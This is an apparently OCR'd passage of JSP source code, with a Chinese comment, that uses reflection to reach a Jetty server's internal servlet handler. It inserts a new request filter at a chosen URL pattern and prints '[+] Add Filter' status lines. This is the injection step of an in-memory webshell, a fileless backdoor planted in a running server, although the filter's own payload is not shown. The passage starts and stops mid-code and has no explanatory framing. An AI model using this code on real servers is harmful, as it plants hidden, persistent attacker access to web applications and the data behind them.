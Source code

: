 ```jsp
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
```